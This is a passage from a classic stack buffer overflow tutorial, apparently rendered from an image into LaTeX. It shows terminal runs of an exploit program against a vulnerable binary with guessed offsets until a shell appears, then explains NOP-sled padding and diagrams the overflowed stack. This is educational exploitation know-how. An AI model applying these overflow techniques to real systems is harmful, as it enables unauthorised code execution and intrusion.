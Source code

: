 \documentclass[10pt]{article}
\begin{document}
{\begin{verbatim}
[aleph1]$ ./exploit2 500
Using address: 0xbffffdb4

[aleph1]$ ./vulnerable $EGG
[aleph1]$ exit

[aleph1]$ ./exploit2 600
Using address: 0xbffffdb4

[aleph1]$ ./vulnerable $EGG
Illegal instruction

[aleph1]$ exit

[aleph1]$ ./exploit2 600 100
Using address: 0xbffffd4c

[aleph1]$ ./vulnerable $EGG
Segmentation fault

[aleph1]$ exit

[aleph1]$ ./exploit2 600 200
Using address: 0xbffffce8

[aleph1]$ ./vulnerable $EGG
Segmentation fault

[aleph1]$ exit
.
.
.

[aleph1]$ ./exploit2 600 1564
Using address: 0xbffff794

[aleph1]$ ./vulnerable $EGG
$
\end{verbatim}

As we can see this is not an efficient process. Trying to guess the offset even while knowing where the 
beginning of the stack lives is nearly impossible. We would need at best a hundred tries, and at worst a couple 
of thousand. The problem is we need to guess *exactly* where the address of our code will start. If we are off 
by one byte more or less we will just get a segmentation violation or a invalid instruction. One way to increase 
our chances is to pad the front of our overflow buffer with NOP instructions. Almost all processors have a NOP 
instruction that performs a null operation. It is usually used to delay execution for purposes of timing. We will 
take advantage of it and fill half of our overflow buffer with them. We will place our shellcode at the center, 
and then follow it with the return addresses. If we are lucky and the return address points anywhere in the string 
of NOPs, they will just get executed until they reach our code. In the Intel architecture the NOP instruction is 
one byte long and it translates to 0x90 in machine code. Assuming the stack starts at address 0xFF, that S stands 
for shell code,  and that N stands for a NOP instruction the new stack would look like this: 

{\footnotesize
\begin{verbatim}
bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF  top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF  memory
           buffer                sfp   ret   a     b     c
<------   [NNNNNNNNNNNSSSSSSSSS][0xDE][0xDE][0xDE][0xDE][0xDE]
                 ^                     |
                 |_____________________|
top of                                                         bottom of
stack                                                          stack
\end{verbatim}
}


}
\end{document}
